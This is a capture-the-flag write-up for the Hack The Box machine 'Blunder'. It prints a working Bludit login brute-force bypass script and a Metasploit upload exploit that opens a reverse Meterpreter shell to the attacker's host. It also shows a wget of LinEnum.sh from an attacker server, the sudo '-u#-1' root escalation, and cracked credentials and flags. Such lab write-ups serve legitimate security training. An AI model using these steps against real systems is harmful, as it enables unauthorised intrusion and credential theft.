








# Blunder

## Enumeration
Alright, lets start with the host enumeration.
```bash
kali@kali:~/hackthebox/Blunder$ nmap -sS -sV -oN nmap.txt 10.10.10.191
Nmap scan report for 10.10.10.191
Host is up, received echo-reply ttl 63 (0.22s latency).
Scanned at 2020-06-06 10:53:49 EDT for 402s
Not shown: 998 filtered ports
Reason: 998 no-responses
PORT   STATE  SERVICE REASON         VERSION
21/tcp closed ftp     reset ttl 63
80/tcp open   http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: A0F0E5D852F0E3783AF700B6EE9D00DA
|_http-generator: Blunder
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Sat Jun  6 11:00:31 2020 -- 1 IP address (1 host up) scanned in 402.81 seconds
```
There are 64000 other ports that I scanned afterwards, but they didn't yield anything useful. So lets start with port 80. 



We get a blog with a few pages about a few random topics. Lets start web enumeration in the background and then look at the different pages.
First, I looked at the source code for all the different pages, and didn't really find anything useful. One thing stood out though: "RolandDeschain". This could just be a typo, but lets note it down. Lets go back to gobuster.
```bash
kali@kali:~/hackthebox/Blunder$ ./../../Downloads/gobuster/gobuster dir -u 10.10.10.191 -w /usr/share/wordlists/dirb/directory-list-2.3-small.txt -x txt,php,html -t 20
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.191
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirb/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php,html
[+] Timeout:        10s
===============================================================
2020/06/06 11:19:18 Starting gobuster
===============================================================
/about (Status: 200)
/0 (Status: 200)
/admin (Status: 301)
/install.php (Status: 200)
/robots.txt (Status: 200)
/todo.txt (Status: 200)
/usb (Status: 200)
/LICENSE (Status: 200)
```
We find an interesting page. /admin and it brings us to a login page. 

And /todo.txt which gives another possible credential, fergus.

## Foothold 
As per the unspoken rule, I tried 'or '1' = '1:1' or '1' = '1 as the username and password, but it didn't work. lets see if there are any vulnerabilities for BLUDIT.
```bash
kali@kali:~$ searchsploit bludit
-------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                              |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
Bludit - Directory Traversal Image File Upload (Metasploit)                                 | php/remote/47699.rb
bludit Pages Editor 3.0.0 - Arbitrary File Upload                                           | php/webapps/46060.txt
-------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Great! We found a couple vulnerabilities and from google: https://rastating.github.io/bludit-brute-force-mitigation-bypass/. It provides a python script that allows users to bypass the brute force protections on the login page. Lets see what version of bludit we're working with.

Looking at the source code, we see that the server is running version 3.9.2. Lets check out the metasploit module.
```bash
kali@kali:~/hackthebox/Blunder$ msfconsole -q
[*] Starting persistent handler(s)...
msf5 > search bludit

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/linux/http/bludit_upload_images_exec  2019-09-07       excellent  Yes    Bludit Directory Traversal Image File Upload Vulnerability


msf5 > use 0
msf5 exploit(linux/http/bludit_upload_images_exec) > options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS                   yes       The password for Bludit
   BLUDITUSER                   yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2
```
We see that we need login credentials for this exploit. There are a couple of ways to get these credentials. The first, if you found fergus and RoaldDeschain you will find that they are the username and password, respectively. The other option is if you found the username fergus, and struggled to find the password. You can use the bruteforcing script and create a wordlist from the website using cewl.
```bash
kali@kali:~/hackthebox/Blunder$ cewl 10.10.10.191 > list.txt 
```
and edit the script to
```python
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'

# Generate 50 incorrect password
with open('list.txt') as f:
        content = f.readlines()
        word = {x.strip() for x in content}
wordlist = word
# Add the correct password to the end of the list
#wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.>
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```
and finally 
```bash
kali@kali:~/hackthebox/Blunder$ python bypass.py 
[*] Trying: Title
[*] Trying: dynamic
[*] Trying: contributions
[*] Trying: centers
[*] Trying: Foundation
[*] Trying: Powered
[*] Trying: Award
[*] Trying: charge
[*] Trying: under
[*] Trying: Mystery
[*] Trying: horror
[*] Trying: smartphones
[*] Trying: minute
[*] Trying: entire
[*] Trying: button
[*] Trying: companies
[*] Trying: small
[*] Trying: direct
[*] Trying: literature
[*] Trying: second
[*] Trying: video
[*] Trying: section
[*] Trying: access
[*] Trying: version
[*] Trying: America
[*] Trying: Short
[*] Trying: Stadia
[*] Trying: commercial
[*] Trying: Breaked
[*] Trying: RolandDeschain
()
SUCCESS: Password found!
Use fergus:RolandDeschain to login.
()
```
Once we log in, there isn't much for us to do.

The new content page allows us to create a blog, but nothing that lets us exploit for a shell, luckily, metasploit is there for us.
```bash
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.191     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2


msf5 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.15.2:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading eDHvHrHJgC.png...
[*] Uploading .htaccess...
[*] Executing eDHvHrHJgC.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.15.2:4444 -> 10.10.10.191:33208) at 2020-06-06 11:37:41 -0400
[+] Deleted .htaccess

meterpreter > sysinfo
Computer    : blunder
OS          : Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > 
```
## User
Nice! Now to get user. Looking around in the bludit files, we found an interesting file named users.php.
```bash
meterpreter > shell
Process 2983 created.
Channel 0 created.
python -c 'import pty;pty.spawn("/bin/bash");' #Full shell
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ ls
ls
thumbnails
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ cd ..
cd ..
www-data@blunder:/var/www/bludit-3.9.2/bl-content$ ls
ls
databases  pages  tmp  uploads  workspaces
www-data@blunder:/var/www/bludit-3.9.2/bl-content$ cd databases
cd databases
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ ls
ls
categories.php  plugins       site.php    tags.php
pages.php       security.php  syslog.php  users.php
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
}www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ 
```
We find a username hash and salt, I tried cracking it with hashcat but didn't find anything, and there is not point cracking fergus' hash. Let's look around some more. 
```bash
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ 
```
We find a newer version of bludit (it seems they were in the process of updating bludit) and a username 'hugo' and a password hash. Using crackstation, we were able to crack it and get the user flag.

```bash
ww-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ su hugo
su hugo
Password: Password120
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ id
id
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cd
cd
hugo@blunder:~$ ls
ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
hugo@blunder:~$ cat user.txt
cat user.txt
610cceeee92de8c20cd26ea58e1c7b8f
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
## Priviledge Escalation
Now we can move on to root. In our initial enumeration, we found that ftp was closed, and in todo.txt, there was a note to turn off ftp, so maybe there was something left in /ftp.
```bash
hugo@blunder:/$ cd ftp
cd ftp
hugo@blunder:/ftp$ ls
ls
config  config.json  D5100_EN.pdf  note.txt
hugo@blunder:/ftp$ cat config.json
cat config.json
{
  "squadName": "Super hero squad",
  "homeTown": "Metro City",
  "formed": 2016,
  "secretBase": "Super tower",
  "active": true,
  "members": [
    {
      "name": "Molecule Man",
      "age": 29,
      "secretIdentity": "Dan Jukes",
      "powers": [
        "Radiation resistance",
        "Turning tiny",
        "Radiation blast"
      ]
    },
    {
      "name": "Madame Uppercut",
      "age": 39,
      "secretIdentity": "Jane Wilson",
      "powers": [
        "Million tonne punch",
        "Damage resistance",
        "Superhuman reflexes"
      ]
    },
    {
      "name": "Eternal Flame",
      "age": 1000000,
      "secretIdentity": "Unknown",
      "powers": [
        "Immortality",
        "Heat Immunity",
        "Inferno",
        "Teleportation",
        "Interdimensional travel"
      ]
    }
  ]
}
hugo@blunder:/ftp$ cat note.txt
cat note.txt
Hey Sophie
I've left the thing you're looking for in here for you to continue my work
when I leave. The other thing is the same although Ive left it elsewhere too.

Its using the method we talked about; dont leave it on a post-it note this time!

Thanks
Shaun
hugo@blunder:/ftp$ file config
file config
config: gzip compressed data, from Unix, original size modulo 2^32 286720
```
I coped the file to my machine and unzipped it, and found a file named buzz.wav, but there was nothing hidden inside of it. The note, however, is interesting, lets check out Shaun's directory. 
```bash
hugo@blunder:/home/shaun/Pictures$ ls
ls
'Screenshot from 2019-11-28 13-17-29.png'
'Screenshot from 2019-11-28 14-02-13.png'
hugo@blunder:/home/shaun/Pictures$ 
```
Lets see what in these screenshots.
'Screenshot from 2019-11-28 13-17-29.png'



'Screenshot from 2019-11-28 14-02-13.png'


The first screenshot is interesting, the user seems to use a buffer overflow on a program in /usr/local/sbin that allows him to get root. Lets try to find the program, and maybe reverse engineer it.
```bash
hugo@blunder:/home/shaun/Pictures$ cd /usr/local/sbin
cd /usr/local/sbin
hugo@blunder:/usr/local/sbin$ ls
ls
visudo
hugo@blunder:/usr/local/sbin$ ./visudo
./visudo
visudo: /etc/sudoers: Permission denied
hugo@blunder:/usr/local/sbin$ 
```
Ok, the script isn't there anymore and we can't run the binary. Lets run LinEnum.sh and see if we can find anything interesting.
On our attacking machine:
```bash
kali@kali:~/hackthebox/Blunder$ ls
 buzz.wav    fullshell.txt   LinEnum.sh   nmap.txt         poc.py   'Screenshot from 2019-11-28 13-17-29.png'   user.txt
 bypass.py   hash.txt        list.txt     phpreverse.php   pspy32s  'Screenshot from 2019-11-28 14-02-13.png'
kali@kali:~/hackthebox/Blunder$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
``` 
And on Blunder
```bash
hugo@blunder:~$ wget x.x.x.x:8000/LinEnum.sh
wget x.x.x.x:8000/LinEnum.sh
--2020-06-06 17:09:12--  http://x.x.x.x:8000/LinEnum.sh
Connecting to x.x.x.x:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 17082 (17K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh          100%[===================>]  16.68K  --.-KB/s    in 0.02s   

2020-06-06 17:09:12 (744 KB/s) - ‘LinEnum.sh’ saved [17082/17082]

hugo@blunder:~$ chmod +rwx Lin
chmod +rwx LinEnum.sh 
hugo@blunder:~$ ./L
./LinEnum.sh 
```
Something that stood out was snap, but the current version didn't have any exploits.On the other hand, the sudo version was 1.8.25p1. If you had done other boxes, you're familiar with the vulnerability with this version. Here is the page for it: https://www.exploit-db.com/exploits/47502. I was hitting my head after realizing how simple the vulnerability was, but it was a nice way of getting root.
```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash                                                                                                          
root@blunder:/home/hugo# id                                                                                                   
id                                                                                                                            
uid=0(root) gid=1001(hugo) groups=1001(hugo)                                                                                  
root@blunder:/home/hugo# cat /root/root.txt
cat /root/root.txt
7b270689d7cb80c4b8f0c35ad121341f
root@blunder:/home/hugo# 
```
## Conclusion
This was a fun box. Getting the foothold was frustrating, but it was interesting getting user and root. 